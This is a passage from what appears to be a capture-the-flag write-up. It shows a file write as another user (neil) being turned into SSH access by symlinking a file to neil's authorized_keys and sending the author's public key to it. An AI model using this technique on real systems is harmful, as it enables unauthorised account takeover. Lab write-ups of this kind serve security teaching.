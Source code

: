 And the data is in `/tmp/outweb` owned by neil:



    frank@bookworm:~$ ls -l /tmp/outweb
    -rw-r--r-- 1 neil neil 16 Jan 17 16:37 /tmp/outweb
    frank@bookworm:~$ cat /tmp/outweb
    test data!






That looks like arbitrary write as neil.

#### SSH

From frank's home directory, I'll write a new link pointing to neil's
`authorized_keys` file:



    frank@bookworm:~$ ln -s /home/neil/.ssh/authorized_keys pwn.txt



I'll send my public SSH key targeting the link:

![](/img/image-20240117114050471.png)

